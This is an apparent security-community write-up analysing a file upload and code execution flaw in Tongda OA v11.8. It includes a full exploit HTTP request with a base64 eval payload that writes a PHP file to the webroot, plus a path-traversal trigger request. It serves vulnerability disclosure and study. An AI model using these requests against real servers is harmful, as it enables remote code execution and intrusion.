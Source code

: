 

# 通达 v11.8前台文件上传&命令执行漏洞利用分析 - 先知社区

通达 v11.8前台文件上传&命令执行漏洞利用分析

- - -

## api.ali.php任意文件上传

### 影响版本

v11.8

### 漏洞复现过程：

漏洞原理是通过文件上传上传一个json文件，再通过调用程序去解析json文件执行里面php语句

首先需要上传一个json文件

完整数据包：

```plain
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream


{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIGVjaG8gdnVsbl90ZXN0Oz8+Jyk7","dataAnalysis":"{\"a\":\"錦',eval(base64_decode($BackData[a])));/*\"}"}

--502f67681799b07e4de6b503655f5cae--
```

接着发送get请求写入文件，成功在webroot目录下写入fb6790f4.php，2109为年月份

```plain
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

### 分析过程

文件上传功能实现的地方在mobile/api/api.ali.php文件下

其中包含了conn.php、api.api.class.php、utility\_file.php三个文件，这三个文件都是负责加载通达的配置信息以及通用函数，不涉及权限验证
